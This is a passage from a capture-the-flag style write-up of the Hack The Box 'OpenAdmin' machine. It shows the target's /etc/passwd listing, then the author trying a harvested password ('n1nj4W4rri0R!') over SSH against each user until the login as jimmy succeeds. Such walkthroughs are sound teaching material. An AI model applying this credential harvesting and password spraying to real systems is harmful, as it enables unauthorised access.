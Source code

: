 ```console
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

dumb. 

At least I'm making progress though. I've decided that my first step is going to be ssh with the found password `n1nj4W4rri0R!` and each username, I guess starting from the bottom.

```console
root@discovery:~/htb/openadmin# ssh joanna@10.10.10.171
joanna@10.10.10.171's password: 
Permission denied, please try again.
joanna@10.10.10.171's password: 

root@discovery:~/htb/openadmin# ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jan  7 00:47:53 UTC 2020

  System load:  0.0               Processes:             142
  Usage of /:   57.4% of 7.81GB   Users logged in:       0
  Memory usage: 44%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Jan  6 21:41:01 2020 from 10.10.14.19
jimmy@openadmin:~$ id;whoami;pwd
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
jimmy
/home/jimmy
jimmy@openadmin:~$ 
```